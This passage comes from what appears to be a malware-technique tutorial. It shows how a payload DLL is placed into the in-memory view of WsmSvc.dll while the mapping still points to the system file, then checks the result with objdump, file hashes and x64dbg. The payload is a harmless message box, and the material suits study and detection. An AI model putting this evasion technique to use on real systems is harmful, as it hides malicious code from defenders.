{:class="img-responsive"}    

Inspect the payload before running it:    

```bash
x86_64-w64-mingw32-objdump -p meow.dll
```

{:class="img-responsive"}    

{:class="img-responsive"}    

{:class="img-responsive"}    

{:class="img-responsive"}    

{:class="img-responsive"}    

```bash
x86_64-w64-mingw32-objdump -h meow.dll
```

In my cross-compiled payload, the entry-point RVA is `0x1000`, the preferred base is `0x180000000`, and `SizeOfImage` is `0x6000`. Its import table contains `USER32.dll!MessageBoxA`, and the relocation table contains a `DIR64` fixup for the data pointer. The TLS, exception, delay-import, load-configuration and CLR directories are empty. Exact file sizes and offsets can change with the toolchain.    

{:class="img-responsive"}    

Copy `hack.exe` and `meow.dll` to the same working directory on Windows x64. Record the carrier file hash, then start the host:    

```powershell
Get-FileHash "$env:WINDIR\System32\WsmSvc.dll" -Algorithm SHA256
.\hack.exe
```

The first pause lets you inspect the original carrier view. The console prints its base address, the carrier and payload image sizes, and the memory type. `MEM_IMAGE` is `0x01000000`.    

{:class="img-responsive"}    

{:class="img-responsive"}    

Press Enter. The program replaces the view, applies relocations, resolves imports and restores the payload's section protections. At the second pause, compare the mapped headers with the file identified by the backing path. At the entry point, the expected protection is `PAGE_EXECUTE_READ`, or `0x20`.    

{:class="img-responsive"}     

Press Enter again. The expected visible result is our usual `Meow-meow!` message box. Close it to return to the host, which unmaps the carrier view and releases its handles.    

{:class="img-responsive"}    

Check the carrier file again:    

```powershell
Get-FileHash "$env:WINDIR\System32\WsmSvc.dll" -Algorithm SHA256
```

The two hashes should match. We modified a process-local view, while the original carrier file was opened for reading. The memory experiment and the on-disk integrity check answer different questions.    

{:class="img-responsive"}     

Let me explain again with x64dbg debugger.     

Open `x64dbg` debugger and run:    

```bash
init "Z:\hack.exe", "", "Z:\"
```

{:class="img-responsive"}     

The third argument specifies the working directory: this is where the program looks for our `meow.dll`.     

Now, we press F9 until the following appears in the program console:     

```bash
press Enter to replace the image...
```

{:class="img-responsive"}     

Look at the base:    

{:class="img-responsive"}     

save the address to a variable:     

```bash
mov lbase, 00007ffc9ea70000
```

{:class="img-responsive"}     

The variable is created automatically; by default, x64dbg treats numbers as hexadecimal.    

Let's examine the original `WsmSvc.dll` image:    

```bash
dump lbase
```

{:class="img-responsive"}     

As you can see, the dump should show the MZ header and the contents of the originally mapped DLL     

Let's open the `Memory Map` and find the range that contains `lbase`. Here, we can note the address, the mapping type, and the original page protections.    

{:class="img-responsive"}     

Then, to view the NT headers:

```bash
dump lbase+dword:[lbase+3C]
```

Here, `base + 0x3C` contains `e_lfanew`. The following offsets from the resulting NT headers address are useful:     

+28 - AddressOfEntryPoint, DWORD    
+30 - preferable ImageBase, DWORD    
+50 - SizeOfImage, DWORD

In x64dbg, press `F9`, then switch to the program's console and press Enter once.     
Wait for the second prompt:     

```bash
press Enter to call the replacement DLL entry point...
```

{:class="img-responsive"}     

Switch to x64dbg and press F12 again. The image has now been replaced and prepared, but the payload has not yet been executed.     

Let's display the replaced headers and sections.    

Repeat the following:

```bash
dump lbase
```

and:

```bash
dump lbase+dword:[lbase+3C]
```

For my build, the expected values ​​are now:

```bash
AddressOfEntryPoint = 00001000
ImageBase           = 0000000180000000
SizeOfImage         = 00006000
```

The ImageBase field remains the preferred base from the PE file. The actual mapping address is the stored `lbase`.     

Let’s look at the code:    

```bash
disasm lbase+1000
```

We should see the instructions for our DllMain, starting with a check for `reason == DLL_PROCESS_ATTACH`. In our build, it should look something like this:    

{:class="img-responsive"}     

As you can see, something like:    

```nasm
cmp edx, 1
je ...
```

So, what we can see here? The content corresponds to `meow.dll`, while the backing file for the mapping remains `WsmSvc.dll`     

